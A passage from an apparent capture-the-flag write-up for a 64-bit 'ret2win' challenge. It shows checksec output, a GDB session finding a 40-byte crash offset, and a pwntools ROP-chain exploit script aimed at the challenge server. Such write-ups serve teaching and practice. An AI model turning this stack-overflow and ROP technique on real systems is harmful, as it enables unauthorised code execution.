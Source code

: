 At this stage, source code is no longer provided, we just get a binary for each challenge. The challenge reads:

```
#4. 64-bit Calling Convention
```

So we sort of know where they're going with this.  Again, we need the crash offset. Again PIE is disabled:

```bash
$ checksec pwnme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

GDB to get the crash offset (slightly diff in 64 bit):

```
$ gdb ./pwnme
gdb-peda$ pattern_create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
gdb-peda$ r
Level 3: Args too?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
Stopped reason: SIGSEGV
0x00000000004011c9 in vuln ()
gdb-peda$ bt
#0  0x00000000004011c9 in vuln ()
#1  0x4141464141304141 in ?? ()
#2  0x4147414131414162 in ?? ()
#3  0x4841413241416341 in ?? ()
#4  0x0000000000000000 in ?? ()
gdb-peda$ pattern_offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

An offset of 40 should do the trick, we write a basic 64 bit `ret2win` exploit. This time we need a `pop rdi `ROP gadget to place our argument from the stack into the `RDI` register. The exploit looks like this:

```python
from pwn import *

local = False

fname = "./pwnme"
hostname = '0.cloud.chals.io'
port = 10711
offset = 40

binary = context.binary = ELF(fname)

if local:
    p = process(fname)
else:
    p = remote(hostname, port)

rop = ROP(binary)
rop.raw(b"A" * offset)
rop.raw(p64(rop.find_gadget(['ret'])[0]))
rop.raw(p64(rop.find_gadget(['pop rdi','ret'])[0]))
rop.raw(p64(0xdeadbeef))
rop.raw(p64(binary.sym['win']))
```